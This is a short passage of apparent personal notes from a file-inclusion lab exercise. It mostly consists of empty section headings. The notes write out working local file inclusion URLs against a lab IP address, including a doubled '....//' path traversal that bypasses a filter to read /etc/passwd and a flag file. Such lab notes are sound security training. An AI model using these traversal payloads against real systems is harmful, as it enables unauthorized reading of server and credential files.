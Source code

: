 So my guess is it requires us to do use a valid subdir first.

trying http://94.237.54.176:38605/index.php?language=languages/../../../../../etc/passwd fails but doesn't give any output so lets try the doubled path traversal.

http://94.237.54.176:38605/index.php?language=languages/....//....//....//....//....//etc/passwd

And that works so I just need to do:
`http://94.237.54.176:38605/index.php?language=languages/....//....//....//....//....//flag.txt`


## PHP Filters

# Remote Code Execution

## PHP Wrappers

## Remote File Inclusion (RFI)

## LFI and File Uploads

## Log Poisoning

# Automation and Prevention

## Automated Scanning

## File Inclusion Prevention

# Skill Assessment

## Skills Assessment - File Inclusion


